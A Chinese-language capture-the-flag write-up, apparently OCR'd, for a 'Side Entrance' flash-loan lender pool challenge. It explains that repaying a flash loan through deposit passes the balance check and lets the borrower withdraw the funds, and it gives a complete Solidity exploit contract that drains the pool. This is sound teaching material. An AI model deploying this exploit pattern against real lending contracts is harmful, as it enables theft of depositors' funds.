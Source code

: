 ```js
        }  
        emit Deposit(msg.sender, msg.value);  //更新发送者地址的余额并发出存款事件  
    }  

    function withdraw() external {  
        uint256 amount = balances\[msg.sender\];  

        delete balances\[msg.sender\];  
        emit Withdraw(msg.sender, amount);  

        SafeTransferLib.safeTransferETH(msg.sender, amount);  // 使用SafeTransferLib安全提现以太币  
    }  
    //用户可以使用此功能发起提现。它检索发送方的当前余额，删除用户的余额记录，发出提现事件，并将全部 ETH 金额转回发送方。  

    function flashLoan(uint256 amount) external {  
        uint256 balanceBefore = address(this).balance;  

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();  

        if (address(this).balance < balanceBefore)  // 如果合约余额小于执行借贷前的余额，表示还款失败，触发还款失败错误  
            revert RepayFailed();  
    }  
}
```

FlashLoan()是具有借和还的功能,并且都是通过transfer来实现的,并没有进行特别的校验,只通过address(this).balance &lt; balanceBefore 来检查.但是SideEntranceLenderPool还提供了存入功能,并且没有做任何的限制,也就是说,可以通过SideEntranceLenderPool合约提供的deposit来绕过FlanshLoan()的验证,然后在进行withdraw取钱

那么我们就可以 先存入钱,再取出。（正常流程是通过闪电贷进行取出(借)和存入(还)）

也就是说 在闪电贷时候 原本是偿还的 但是我们使用存款,那么是存款我们就可以自己取出来。打到掏空Pool的效果

Exp:

```js
contract SideEntranceHacker is IFlashLoanEtherReceiver {  

    SideEntranceLenderPool pool;  

    constructor(address instance) {  
        pool = SideEntranceLenderPool(instance);  
    }  

    function exploit() external payable {  
        pool.flashLoan(1000 ether);  
        pool.withdraw();  
        payable(tx.origin).transfer(1000 ether);  
    }  

    function execute() external payable {  
        pool.deposit{value: 1000 ether}();  
    }  

    receive() external payable {}  
}
```

